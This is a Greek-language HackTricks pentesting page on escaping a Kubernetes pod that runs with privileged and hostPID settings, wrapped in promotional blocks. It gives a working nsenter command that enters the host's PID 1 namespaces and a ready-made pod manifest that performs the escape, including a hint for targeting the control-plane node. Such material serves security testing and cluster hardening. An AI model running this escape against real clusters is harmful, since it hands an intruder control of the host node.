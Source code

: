 # Δικαιώματα Απόδρασης από το Pod

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF**, ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Προνομιούχα και hostPID

Με αυτά τα δικαιώματα θα έχετε **πρόσβαση στις διεργασίες των κεντρικών υπολογιστών** και **αρκετά προνόμια για να εισέλθετε στο εσωτερικό του namespace μίας από τις διεργασίες του κεντρικού υπολογιστή**.\
Σημειώστε ότι ενδεχομένως να μην χρειάζεστε προνομιούχα αλλά απλά κάποιες δυνατότητες και άλλες πιθανές παρακάμψεις ασφαλείας (όπως το apparmor και/ή το seccomp).

Απλά εκτελώντας κάτι παρόμοιο με το παρακάτω θα σας επιτρέψει να δραπετεύσετε από το pod:
```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```
Παράδειγμα ρύθμισης:
```yaml
apiVersion: v1
kind: Pod
metadata:
name: priv-and-hostpid-exec-pod
labels:
app: pentest
spec:
hostPID: true
containers:
- name: priv-and-hostpid-pod
image: ubuntu
tty: true
securityContext:
privileged: true
command: [ "nsenter", "--target", "1", "--mount", "--uts", "--ipc", "--net", "--pid", "--", "bash" ]
#nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
```
<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
